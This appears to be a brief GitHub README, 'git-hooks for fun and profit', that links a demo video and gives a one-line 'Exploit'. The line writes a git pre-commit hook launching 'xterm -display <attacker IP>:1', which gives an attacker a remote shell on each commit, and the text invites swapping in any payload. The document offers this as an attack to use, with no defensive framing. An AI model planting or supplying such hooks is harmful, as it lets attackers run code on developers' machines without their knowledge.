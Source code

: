 git-hooks for fun and profit
======================

Video:
<a href="http://www.youtube.com/watch?feature=player_embedded&v=rCVmWUf8x1E" target="_blank"><img src="http://img.youtube.com/vi/rCVmWUf8x1E/0.jpg" alt="Profit with Git hooks!" width="480" height="360" border="10" /></a>

**Exploit**
```shell-session

echo "xterm -display <attacker IP>:1 &" > .git/hooks/pre-commit; chmod +x .git/hooks/pre-commit

```

Sure you can use whatever payload you want to exploit, using lame xterm to visually show off payload execution reversing a shell to attacker.

